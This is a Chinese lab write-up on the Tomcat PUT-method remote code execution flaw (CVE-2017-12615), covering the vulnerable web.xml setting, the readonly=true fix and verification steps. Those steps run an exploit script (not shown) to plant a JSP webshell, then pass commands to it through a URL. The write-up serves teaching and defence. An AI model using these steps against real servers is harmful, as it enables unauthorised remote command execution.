 # Tomcat远程代码执行漏洞危害

## 工具

Firefox: 中文俗称火狐，一个自由及开放源代码网页浏览器

## Tomcat

Tomcat服务器是一个免费的开放源代码的Web应用服务器。Tomcat是Apache软件基金会（Apache SoftwareFoundation）的Jakarta项目中的一个核心项目，由Apache、Sun和其他一些公司及个人共同开发而成。

## 漏洞介绍

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)当存在漏洞的Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT请求方法，攻击者通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行，危害十分严重。

## 漏洞分析

在Tomcat安装目录下的配置文件web.xml中的org.apache.catalina.servlets.DefaultServlet方法下如果该方法有如下代码，即表示Tomcat已开启PUT方法

    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>


然后我们就可以通过PUT方法直接上传一句话木马

## 修复方案

用户可以禁用PUT方法来防护此漏洞，操作方式如下：

在Tomcat的web.xml 文件中配置org.apache.catalina.servlets.DefaultServlet的初始化参数

    <init-param>
    <param-name>readonly</param-name>
    <param-value>true</param-value>
    </init-param>

确保readonly参数为true（默认值），即不允许DELETE和PUT操作。

## 验证步骤

步骤 1：访问目标网站

在浏览器的地址栏输入我们的目标网站地址192.168.1.1:8080，查看版本知道存在远程代码执行漏洞；

步骤 2：执行payload，利用payload对目标网站发起攻击。输入命令:

    python exp.py 192.168.1.1:8080

运行，程序返回webshell的地址

    http://192.168.1.1:8080/1506412001.jsp

注意：此处1506412001.jsp为随机生成地址，请以实际获取的shell为准

在火狐浏览器中按F9打开hackbar插件，执行以下命令

    http://192.168.1.1:8080/1506412001.jsp?&pwd=023&cmd=ipconfig

## 结果分析
当存在漏洞的Tomcat运行在 Windows 主机上，且启用了 HTTP PUT 请求方法，攻击者通过构造的攻击请求向服务器上传包含任意代码的 JSP 文件，造成任意代码执行。因此，通常情况下我们应该不允许DELETE和PUT操作。